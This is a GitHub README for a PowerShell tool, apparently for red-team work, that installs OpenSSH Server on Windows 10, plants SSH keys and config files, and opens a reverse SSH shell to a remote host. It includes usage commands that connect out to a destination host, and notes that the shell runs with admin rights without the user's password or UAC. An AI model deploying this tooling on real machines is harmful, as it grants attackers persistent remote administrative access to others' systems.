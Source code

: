 # lol-reverseSSHell
Living Off the LAN Reverse Shell over SSH

This script is intended to make working with SSH reverse shells easier on Windows 10. It will install OpenSSH Server (if missing) on Windows 10 via WindowsCapability. Then it will copy the sshd_config file, SSH private key, and authorized_keys file to the proper locations on the Windows host. Finally it creates a reverse SSH connection. The shell served is CMD.exe by default. Once you're in the cmd.exe cli, you can type 'powershell' to get a PS shell. 

* Please generate NEW SSH KEYs. Use the repo keys only for testing. 

Usage: 
* .\lol-reverseSSHell.ps1 -DestinationUserName `<user>` -DestinationHost 10.10.10.10
* .\lol-reverseSSHell.ps1 -DestinationUserName `<user>` -DestinationHost 10.10.10.10 -DestinationPort 22 -DestinationBindLocalPort 7777 -InstallOpenSSHServer yes 
* get-help .\lol-reverseSSHell.ps1 

* get-help .\lol-reverseSSHell.ps1 -Examples

Remote cmd.exe in a bash terminal via ssh: 
![alt text](https://github.com/ArronJablonowski/lol-reverseSSHell/blob/main/image.png?raw=true)
Remotely executing commands via cmd.exe and powershell:  
![alt text](https://github.com/ArronJablonowski/lol-reverseSSHell/blob/main/image02.png?raw=true)

Unix vs Windows Reverse SSH Shell Differences & the Interesting Security Implications for Windows
-------------------------------------------------------------------------------------------------
Running list as I do research: 
* Unknown usernames are OK - Once you have a reverse connection, Windows does NOT require knowing the username to authenticate when using keypairs. A simple call to localhost will connect to a shell under the context of the user that initiated it. 
  --- Windows Example --- ssh localhost -p <localport>   
  --- Unix Example ------ ssh user123@localhost -p <localport> 
* Admin privleges - Because the shell is ran using an admin PS promt, your shell will have admin privleges without ever knowing the user's admin password. No sudo commands or UAC to prevent elevated privleges. Which means you can modify system files without issue.  

